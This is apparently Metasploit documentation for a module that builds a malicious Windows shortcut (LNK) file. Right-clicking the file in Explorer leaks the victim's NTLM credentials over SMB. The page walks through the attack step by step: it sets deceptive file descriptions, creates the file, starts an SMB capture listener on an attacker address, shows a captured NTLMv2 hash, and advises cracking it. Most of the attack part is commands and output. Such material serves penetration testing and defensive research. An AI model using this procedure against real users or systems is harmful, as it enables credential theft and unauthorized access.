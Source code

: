 ## Vulnerable Application

Windows systems where LNK files are processed in Explorer, particularly during right-click actions that load context menus.
This can result in NTLM credential leaks over SMB.

References:
- [Right-Click LNK](https://zeifan.my/Right-Click-LNK/)

Disclosure Date: 2025-05-06.

## Verification Steps

1. Start msfconsole.
1. Load the module: `use auxiliary/fileformat/right_click_lnk_leak`.
1. Optionally customize FILENAME, DESCRIPTION, ICON_PATH, or PADDING_SIZE.
1. Execute the module: `run`.
1. A malicious LNK file is generated.
1. Set up an SMB capture listener (e.g., `auxiliary/server/capture/smb`).
1. Deliver the LNK file to the target system.
1. Right-click the LNK file in Explorer to trigger the SMB connection.
1. Monitor the listener for captured NTLM hashes.

## Options

### DESCRIPTION

The description for the shortcut.

Default: `Testing Purposes`

Example:
```
set DESCRIPTION Important File
```

### ICON_PATH

The path to an icon for the LNK file.

Default: `e.g. abc.ico`

Example:
```
set ICON_PATH %SystemRoot%\\System32\\shell32.dll
```

### PADDING_SIZE

Size of padding in the command arguments.

Default: 10

Example:
```
set PADDING_SIZE 20
```

## Scenarios

### NTLM Hash Capture on Right-Click

Target: Windows system with Explorer (e.g., Windows 10 or later).

Generate the LNK file:

```
msf > use auxiliary/fileformat/right_click_lnk_leak
msf auxiliary(fileformat/right_click_lnk_leak) > set DESCRIPTION Fake Document
DESCRIPTION => Fake Document
msf auxiliary(fileformat/right_click_lnk_leak) > set ICON_PATH %SystemRoot%\\System32\\imageres.dll
ICON_PATH => %SystemRoot%\\System32\\imageres.dll
msf auxiliary(fileformat/right_click_lnk_leak) > set PADDING_SIZE 15
PADDING_SIZE => 15
msf auxiliary(fileformat/right_click_lnk_leak) > run

[*] Creating 'context.lnk' file...
[+] LNK file created: context.lnk
[*] Set up a listener (e.g., auxiliary/server/capture/smb) to capture the authentication
[*] Auxiliary module execution completed
```

Set up the capture listener on the attacker machine:

```
msf > use auxiliary/server/capture/smb
msf auxiliary(server/capture/smb) > set SRVHOST 192.168.1.25
SRVHOST => 192.168.1.25
msf auxiliary(server/capture/smb) > run
[*] Server started.
```

Deliver `context.lnk` to the target. When the victim right-clicks it, an SMB connection is attempted:

```
[*] SMB Captured - 2025-09-18 21:08:00 +0530
NTLMv2 Response Captured from 192.168.1.50:49180 - 192.168.1.50
USER:targetuser DOMAIN:TARGETPC OS: Windows 10 LM:
LMHASH:Disabled
LM_CLIENT_CHALLENGE:Disabled
NTHASH:examplehashvalue
NT_CLIENT_CHALLENGE:examplechallenge
```

Use cracking tools to recover credentials from the hash.
